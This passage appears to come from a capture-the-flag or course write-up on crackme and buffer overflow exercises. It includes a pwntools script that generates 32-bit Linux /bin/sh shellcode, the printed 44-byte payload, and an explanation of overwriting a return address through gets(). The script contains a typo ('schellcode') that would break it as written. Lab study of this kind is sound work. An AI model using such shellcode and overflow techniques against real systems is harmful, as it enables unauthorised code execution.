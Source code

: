 So password is whichever multiple of `0x4c7`, or also `1223`.

## Buffer Overflows
Now let's dive into buffer overflows.

### `crackme1` with shell
We have seen that the stack is composed of `128` bytes for the `local_90` variable. By exploiting the `gets()` function, we can place the code to spawn a shell in the stack and then overwrite the **return address** in order to get the actual shell.

The payload of the shell is the following (which can easily be generated with `pwntools`): 
```python
from pwn import *

context.update(arch = 'i386', os = 'linux')
shellcode = shellcraft.sh()
payload = asm(schellcode) 
print(payload)
```
Which gives the following **44 bytes** payload:
```python
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

### `bof3` challenge
|Tag|Definition|
|:--:|:--:|
|**Purpose**|Bypass the condition and get the string “You won!”.|
|**Suggested tool**|pwntools, shell + python, gdb.|
|**Hints**|Pay attention to the endianness. Consider using `echo -ne` to bypass shell input manipulation|

Again, let's run **Ghidra** and disassemble the `bof3` binary. 

<center>